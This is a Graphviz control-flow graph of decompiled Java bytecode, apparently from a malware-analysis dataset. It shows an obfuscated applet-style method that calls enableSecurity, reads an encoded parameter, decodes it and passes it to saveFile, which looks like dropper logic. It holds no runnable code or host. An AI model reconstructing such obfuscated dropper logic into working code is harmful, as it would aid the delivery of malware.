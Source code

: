 digraph "" {
    "r0 := @this: ore"
    "load.r r0"
    "r0 := @this: ore"->"load.r r0";
    "virtualinvoke <ore: void enableSecurity()>"
    "load.r r0"->"virtualinvoke <ore: void enableSecurity()>";
    "virtualinvoke <ore: void enableSecurity()>"->"load.r r0";
    "push \"3`(a\""
    "load.r r0"->"push \"3`(a\"";
    "staticinvoke <ore: java.lang.String E(java.lang.String)>"
    "push \"3`(a\""->"staticinvoke <ore: java.lang.String E(java.lang.String)>";
    "virtualinvoke <ore: java.lang.String getParameter(java.lang.String)>"
    "staticinvoke <ore: java.lang.String E(java.lang.String)>"->"virtualinvoke <ore: java.lang.String getParameter(java.lang.String)>";
    "push \"Jq\""
    "virtualinvoke <ore: java.lang.String getParameter(java.lang.String)>"->"push \"Jq\"";
    "staticinvoke <ggg: java.lang.String i(java.lang.String)>"
    "push \"Jq\""->"staticinvoke <ggg: java.lang.String i(java.lang.String)>";
    "push \"\""
    "staticinvoke <ggg: java.lang.String i(java.lang.String)>"->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>";
    "staticinvoke <ggg: java.lang.Object saveFile(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>"->"staticinvoke <ggg: java.lang.Object saveFile(java.lang.String)>";
    "pop"
    "staticinvoke <ggg: java.lang.Object saveFile(java.lang.String)>"->"pop";
    "return"
    "pop"->"return";
    "store.r r0"
    "staticinvoke <ggg: java.lang.Object saveFile(java.lang.String)>"->"store.r r0";
    "store.r r0"->"return";
}
